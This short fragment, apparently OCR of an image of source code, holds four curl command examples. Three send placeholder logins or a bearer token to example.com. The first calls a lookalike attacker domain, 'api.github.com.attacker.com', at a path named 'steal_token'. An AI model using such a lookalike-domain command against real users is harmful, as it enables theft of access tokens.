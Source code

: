 
''' sh
curl -X GET "https://api.github.com.attacker.com/steal_token"
'''

''' sh 
curl -X POST -d "username=admin&password=1234" https://example.com/login
'''

''' sh 
curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"1234"}' https://example.com/api/login
'''

''' sh 
curl -H "Authorization: Bearer YOUR_TOKEN" https://example.com/api/data
'''


